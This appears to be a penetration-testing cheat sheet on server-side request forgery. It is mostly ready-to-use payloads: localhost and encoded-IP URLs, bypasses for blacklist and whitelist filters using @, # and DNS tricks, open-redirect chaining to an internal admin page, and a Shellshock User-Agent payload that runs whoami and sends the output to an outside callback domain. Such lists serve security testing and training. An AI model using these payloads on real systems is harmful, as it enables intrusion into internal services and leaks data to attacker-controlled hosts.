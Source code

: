 ### SSRF
This vulnerability helps attacker to send request to back-end systems. 
If vulnerable >> 500 Internal server error
### Tips
Try with port number, path.
## Commom method (api parameter)
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in referer header
```txt
Referer: http://burpcollaborator.net
```
#### Shellshock exploitation via SSRF
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Circumventing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://127.0.0.1:21/?%0A >> You can change port number if needed.
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#@expected-host
    https://burpcollaborator.net#@google.com
```
Double URL-encode # to %2523.
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
